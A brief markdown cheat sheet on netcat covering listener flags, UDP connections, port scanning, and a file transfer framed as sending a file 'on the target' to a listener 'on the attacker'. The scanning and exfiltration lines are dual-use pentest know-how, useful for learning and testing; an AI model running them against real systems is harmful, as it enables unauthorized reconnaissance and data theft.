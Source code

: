 # Netcat

*Basic Syntax*
```
nc [OPTIONS] HOST PORT
```

*Example*
```
nc -lvnp PORT
```
	- nc -l (listening)
	- nc -p (port)
	- nc -n (no DNS)
	- nc -v (verbose)

*UDP Connection*
```
nc -u HOST PORT
```

*Scan open ports*
```
nc -z HOST PORT-RANGE
```

*Data Transfer*

on the target
```
nc receiving.host.com PORT < file_name
```
on the attacker
```
nc -l PORT > file_name
```